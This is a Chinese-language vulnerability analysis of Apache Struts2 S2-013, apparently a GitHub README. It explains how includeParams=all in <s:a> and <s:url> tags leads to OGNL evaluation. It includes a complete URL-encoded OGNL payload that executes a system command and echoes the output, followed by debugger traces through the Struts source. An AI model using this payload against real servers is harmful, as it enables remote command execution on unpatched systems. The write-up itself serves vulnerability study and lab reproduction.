






# S2-013 Demo

## Summary

Impact of vulnerability: Remote command execution

Affected Software:  `Struts 2.0.0` - `Struts 2.3.14.1`

Problem: `Struts2` 标签中 ` <s:a> ` 和 ` <s:url> ` 都包含一个 `includeParams` 属性，其值可设置为 none，get 或 all，参考官方其对应意义如下：

1. none - 链接不包含请求的任意参数值（默认）
2. get - 链接只包含 GET 请求中的参数和其值
3. all - 链接包含 GET 和 POST 所有参数和其值

` <s:a> `用来显示一个超链接，当`includeParams=all`的时候，会将本次请求的GET和POST参数都放在URL的GET参数上。在放置参数的过程中会将参数进行`OGNL`渲染，造成任意命令执行漏洞。

## Environment

Struts2 Version: `Struts-2.2.3`

Server: `Tomcat 9.0.34

IDE: `idea 2020.1.1 ULTIMATE`

## POC

## Payload

`HelloWorld.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec(%27calc%27).getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println(%27dbapp%3D%27%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D`

## Debug

全局搜索`includeParams`关键字，发现有个`getIncludeParams`方法，先下个断点：

`s2-013/web/WEB-INF/lib/struts2-core-2.2.3.jar!/org/apache/struts2/components/ComponentUrlProvider.class:73`

然后进入到`beforeRenderUrl`函数中。可以看到这个函数将我们提交的恶意参数include进来：

接下来找哪里将表达式进行了解析。

继续跟进，进入`end`函数：

跟进`renderUrl` -> `determineActionURL` -> `buildURL` -> `buildParametersString` -> `translateAndEncode`:

一直跟进translate函数，直到TextParseUtil类的translateVariables方法中，通过stack.findValue方法触发OGNL表达式执行。

`s2-013/web/WEB-INF/lib/xwork-core-2.2.3.jar!/com/opensymphony/xwork2/util/TextParseUtil.class:90`

## Reference

- [S2-013](https://cwiki.apache.org/confluence/display/WW/S2-013)
- [S2-013/S2-014 远程代码执行漏洞]( https://github.com/vulhub/vulhub/blob/master/struts2/s2-013/README.zh-cn.md )

